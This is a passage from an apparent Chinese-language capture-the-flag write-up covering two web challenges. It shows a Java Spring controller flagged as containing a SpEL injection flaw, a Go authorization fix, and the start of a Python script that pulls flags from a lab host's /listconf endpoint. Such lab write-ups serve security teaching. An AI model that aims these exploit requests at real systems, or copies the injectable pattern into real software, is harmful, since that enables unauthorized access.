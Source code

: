 ```java
    @RequestMapping("/myProfile")
    public String myProfilePage(HttpSession session,@ModelAttribute("message") String message) {
        Integer first = (Integer) session.getAttribute("first");
        if(first!=null&&first==0){
            session.setAttribute("message",Canstants.fillTheProfileFirst);
            return "noProfile";
        }else if(first==1){
            Integer userid = (Integer) session.getAttribute("userId");
            Profile profile = profileDao.findProfileByUserId(userid);
            String template = profileView(profile);//这个函数存在spel注入
            session.setAttribute("Template", template);
            session.setAttribute("profile", profile);
            session.setAttribute("message", message);
            return "profile_view";
        }else if(first==2){
            return "excel";
        }else {
            session.setAttribute("message",Canstants.authFail);
            return "error";
        }
    }
```

[源码](http://momomoxiaoxi.com/img/post/TSCTF/web1.zip)





## Web2

这是一个go语言web题。

主要有三块漏洞点：

### 越权泄漏flag

me页面，article的各种功能页面都会泄漏flag。

需要加一个登陆验证，类似这样:

```go
	if(this.Data["IsAdmin"])!=true{
		this.Redirect("/login", 302)
	}
```

在28088端口，管理员页面也会有一个flag，但是那个flag只会泄漏一轮。

exp如下：

```python

def filter_flag(string):
    p = re.compile(r'TSCTF{[0-9a-z\-]{32}}')
    # p = re.compile(r'hctf\{.*\}')
    r = p.findall(string)
    print r
    return r

def get_flag1(host="http://172.16.10.16:28088"):
    paramsGet = {"command":"conf"}
    headers = {"Cache-Control":"max-age=0","Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36","Referer":"http://172.16.10.16:28088/listconf?command=conf","Connection":"close","Accept-Language":"zh-CN,zh;q=0.9,en;q=0.8"}
    response = session.get(host+"/listconf", params=paramsGet, headers=headers)
```